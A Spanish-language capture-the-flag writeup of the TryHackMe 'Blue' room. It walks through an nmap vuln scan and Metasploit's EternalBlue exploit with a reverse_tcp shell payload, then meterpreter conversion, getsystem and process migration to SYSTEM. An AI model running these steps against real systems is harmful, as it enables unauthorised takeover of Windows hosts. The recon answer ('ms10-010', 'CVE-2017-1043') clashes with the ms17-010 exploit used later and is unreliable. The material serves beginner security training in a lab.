







# TryHackMe - Blue Writeup
[https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## Descripción
Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up. This room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners. Professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused.

## Task 1 - Recon

1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the [Nmap](https://tryhackme.com/room/furthernmap) room)

2. How many ports are open with a port number under 1000?

3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)


Podemos escanera la máquina con el siguiente comando:

```
nmap -p1-1000 -sV -sC --script vuln 10.10.9.82
```

El comando hace lo siguiente:
- nmap: es el programa a utilizar.
-  - p1-1000: Indica que se escaneen los puertos del 1 al 1000.
- - sV: Habilita la detección de la versión de los servicios    que corren en los puertos abiertos.
- - sC: Habilita la ejecución de scripts.
- - - script vuln: Hace que se ejecuten los scripts relacionados con la deteccoión de vulnerabilidades (vuln).
- - 10.10.9.82: Es la ip de la máquina a escanear.

Con esto obtendremos los siguientes resultados:





Ahora podemos responder a las preguntas:

1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the Nmap room)

2. How many ports are open with a port number under 1000?
>! 3

3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

>! ms10-010
>! ms10-054 ha dado false y ms10-061 no permite el acceso, por lo que sólo queda ms10-010, que se identifica con la vulnerabilidad CVE-2017-1043.

## Task 2 - Gain Access

1. Start [Metasploit](https://tryhackme.com/module/metasploit)

Abrimos Metasploit y esperamos a que cargue, cuando aparezca 'msf6 >' estará listo para usarse.

2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

Introducimos el siguiente comando en la consola de metasploit:

```
search ms17-010 type:exploit
```



Probamos la primera opción, obteniendo la respuesta:

>! exploit/windows/smb/ms17_010_eternalblue

3. Show options and set the one required value. What is the name of this value? (All caps for submission)

Indicamos a Metasploit que queremos usar el exploit 0:

```
use 0
```

Y le preguntamos las opciones que necesita:

```
show options
```



La solución es:

>! RHOSTS

Que es la opción requerida que no tiene ningún parámetro asignado. Esta opción indica la IP de la máquina a atacar.

4. Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:
```
set payload windows/x64/shell/reverse_tcp
```
With that done, run the exploit!

Introducimos en código que nos proporcionan, seguido de 'y' para confirmar.

Luego, ponemos enb la opción de rhost la ip de la máquina a atacar:

```
set rhosts 10.10.9.82
```

E iniciamos el script:

```
run
```



5. Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 


## Task 3 - Escalate

1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 

En este caso, estamos buscando el exploit 'shell_to_meterpreter':



>! post/multi/manage/shell_to_meterpreter

2. Select this (use MODULE_PATH). Show options, what option are we required to change?

Repetimos lo mismo que con el exploit anterior:

```
use 0
```

```
show options
```



Vemos el único parámetro que no tiene valor y es obligatorio:

>! SESSION

3. Set the required option, you may need to list all of the sessions to find your target here. 

4. Run! If this doesn't work, try completing the exploit from the previous task once more.

5. Once the meterpreter shell conversion completes, select that session for use.

6. Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

7. List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

8. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 
